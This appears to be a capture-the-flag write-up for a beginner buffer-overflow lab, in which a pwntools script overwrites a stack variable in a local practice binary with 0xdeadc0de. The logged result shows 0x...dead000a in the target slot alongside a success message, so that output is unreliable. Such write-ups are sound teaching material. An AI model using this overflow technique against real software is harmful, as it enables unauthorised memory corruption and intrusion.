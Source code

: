 # 02_var_overwrite Writeup

## Steps:
1. Run chall. Notice this is similar to 01 except we aim to overwrite `deadbeef` with `deadc0de`
```
$ ./chall                                

Your goal is to modify the variable @ 0x7ffd4fb7a508 to equal 0xdeadc0de

0x7ffd4fb7a4f0: 0x0000000000000000 0x0000000000000000 
0x7ffd4fb7a500: 0xffffffffffffffff 0x00000000deadbeef 

Enter input: AAAA

0x7ffd4fb7a4f0: 0x0000000a41414141 0x0000000000000000 
0x7ffd4fb7a500: 0xffffffffffffffff 0x00000000deadbeef 

You failed to modify the target variable...
Maybe you didn't supply enough input? Try again!
```

2. Determine the distance to the target variable ~ 3 sets of 8 bytes = `24` bytes
3. Create the payload ~ 24 bytes of garbage to reach target variable then `0xdeadc0de`
```
from pwn import *

target = process("./chall")
goal = 0xdeadc0de

payload = b"A"*24
payload += p64(goal)

target.sendline(payload)

s = target.recvall().decode()
print(s)
```

## Solution:
```
$ python3 exploit.py  
[+] Starting local process './chall': pid 139487
[+] Receiving all data: Done (426B)
[*] Process './chall' stopped with exit code 0 (pid 139487)

Your goal is to modify the variable @ 0x7ffc4147fcb8

0x7ffc4147fca0: 0x0000000000000000 0x0000000000000000 
0x7ffc4147fcb0: 0xffffffffffffffff 0x00000000deadbeef 

Enter input: 
0x7ffc4147fca0: 0x4141414141414141 0x4141414141414141 
0x7ffc4147fcb0: 0x4141414141414141 0x00000000dead000a 

Congrats! You modified the target variable!
```
